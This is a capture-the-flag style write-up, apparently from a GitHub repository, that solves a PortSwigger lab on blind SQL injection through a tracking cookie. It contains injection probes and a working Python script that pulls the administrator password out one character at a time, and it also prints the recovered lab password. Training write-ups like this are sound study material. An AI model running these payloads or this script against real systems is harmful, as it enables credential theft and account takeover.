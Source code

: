 # [Lab:  Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

>This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.To solve the lab, log in as the administrator user.
>

## Step 1 : Check vul sql blind
```sql
' or 1=1-- -

' || (select '' from dual) || '  =>Oke        => Oracle database 

1' union select '1' from users where username='administrator'-- -
```
![check1](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/check1.PNG)


## Step 2 : Check length password 
![check1](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/check2.PNG)

=> Length of administrator password : 20 

## Step3 : Use the substring to find the first letter of password 
`SUBSTRING(string, start, length)`

`1. Create payload to check password `

```py
import string

chars = string.printable[:-6]
f = open('abc.txt',"w")

for c in chars:
	with open("abc.txt","a") as f :
		f.write(c + "\n")

```

`2. Use burp suite intruder `

![check](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/check_3.png)

=> The first letter is 't'

## Step 4 : Code py to find full letter of password
```py
import string
import requests

url='https://acfb1fcd1f5d9cb4c0067543004e007f.web-security-academy.net/'
chars = string.printable[:-6]
#print(chars)
admin_pass=''
i=1
s=requests.Session()
s.get(url)

while True:
	for c in chars:
		payload = f"1' union select '1' from users where username='administrator' and substring(password,{i},1)='{c}'-- -"
		cookie1={"TrackingId":payload}
		r = requests.get(url,cookies=cookie1)
		print(c)
		if 'Welcome' in r.text :
			print('okeeeeeeeeeee')
			admin_pass+=c 
			i+=1
			print(admin_pass)
			break
		if(i==21):
			exit()

```

![check4](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/check4.PNG)

=> Pass : `tdbnwdqkghsguyxqkywa`

## Step 5 : login user : `administrator` with password : `tdbnwdqkghsguyxqkywa`
![ok](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/oke.PNG)





